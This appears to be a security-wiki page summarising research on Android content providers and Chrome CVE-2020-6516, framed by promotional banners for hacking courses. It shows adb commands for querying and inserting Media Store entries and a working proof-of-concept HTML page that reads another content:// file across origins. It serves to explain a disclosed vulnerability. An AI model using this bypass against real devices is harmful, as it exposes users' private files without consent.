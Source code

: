 

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

**This is a summary of the post [https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/](https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/)**

### Listing Files in Media Store
To list files managed by the Media Store, the command below can be used:
```bash
$ content query --uri content://media/external/file
```

For a more human-friendly output, displaying only the identifier and path of each indexed file:
```bash
$ content query --uri content://media/external/file --projection _id,_data
```

Content providers are isolated in their own private namespace. Access to a provider requires the specific `content://` URI. Information about the paths for accessing a provider can be obtained from application manifests or the Android framework's source code.

### Chrome's Access to Content Providers
Chrome on Android can access content providers through the `content://` scheme, allowing it to access resources like photos or documents exported by third-party applications. To illustrate this, a file can be inserted into the Media Store and then accessed via Chrome:

Insert a custom entry into the Media Store:
```bash
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
    --bind _data:s:/storage/emulated/0/test.txt \
    --bind mime_type:s:text/plain
```

Discover the identifier of the newly inserted file:
```bash
content query --uri content://media/external/file \
    --projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```

The file can then be viewed in Chrome using a URL constructed with the file's identifier.

For instance, to list files related to a specific application:
```bash
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```

### Chrome CVE-2020-6516: Same-Origin-Policy Bypass

The _Same Origin Policy_ (SOP) is a security protocol in browsers that restricts web pages from interacting with resources from different origins unless explicitly allowed by a Cross-Origin-Resource-Sharing (CORS) policy. This policy aims to prevent information leaks and cross-site request forgery. Chrome considers `content://` as a local scheme, implying stricter SOP rules, where each local scheme URL is treated as a separate origin.

However, CVE-2020-6516 was a vulnerability in Chrome that allowed a bypass of SOP rules for resources loaded via a `content://` URL. In effect, JavaScript code from a `content://` URL could access other resources loaded via `content://` URLs, which was a significant security concern, especially on Android devices running versions earlier than Android 10, where scoped storage was not implemented.

The proof-of-concept below demonstrates this vulnerability, where an HTML document, after being uploaded under **/sdcard** and added to the Media Store, uses `XMLHttpRequest` in its JavaScript to access and display the contents of another file in the Media Store, bypassing the SOP rules.

Proof-of-Concept HTML:
```xml
<html>
<head>
    <title>PoC</title>
    <script type="text/javascript">
        function poc()
        {
            var xhr = new XMLHttpRequest();

            xhr.onreadystatechange = function()
            {
                if(this.readyState == 4)
                {
                    if(this.status == 200 || this.status == 0)
                    {
                        alert(xhr.response);
                    }
                }
            }

            xhr.open("GET", "content://media/external/file/747");
            xhr.send();
        }
    </script>
</head>
<body onload="poc()"></body>
</html>
```

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}



